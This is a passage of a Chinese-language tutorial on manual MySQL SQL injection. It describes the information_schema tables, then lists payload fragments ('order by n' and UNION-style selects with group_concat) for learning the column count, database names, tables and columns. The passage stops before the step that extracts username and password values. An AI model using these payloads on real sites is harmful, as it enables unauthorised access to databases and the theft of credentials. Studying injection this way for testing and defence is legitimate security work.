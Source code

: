 **information_schema**

系统数据库，记录当前数据库的数据库，表，列，用户权限等信息

**SCHEMATA**

储存mysql所有数据库的基本信息，包括数据库名，编码类型路径等

**TABLES**

储存mysql中的表信息，包括这个表是基本表还是系统表，数据库的引擎是什么，表有多少行，创建时间，最后更新时间等

**COLUMNS**

储存mysql中表的列信息，包括这个表的所有列以及每个列的信息，该列是表中的第几列，列的数据类型，列的编码类型，列的权限，列的注释等

## 0x05 基本手工注入流程

要从select语句中获得有用的信息，必须确定该数据库中的字段数和那个字段能够输出，这是前提。

### 1. MySQL >= 5.0

### （1）获取字段数

order by n /*通过不断尝试改变n的值来观察页面反应确定字段数*/

### （2）获取系统数据库名

在MySQL >5.0中，数据库名存放在information_schema数据库下schemata表schema_name字段中

select null,null,schema_name from information_schema.schemata

### （3）获取当前数据库名

select null,null,...,database()

### （4）获取数据库中的表

select null,null,...,group_concat(table_name) from information_schema.tables where table_schema=database()

或

select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1

### （5）获取表中的字段

这里假设已经获取到表名为user

select null,null,...,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'

### （6）获取各个字段值

这里假设已经获取到表名为user，且字段为username和password
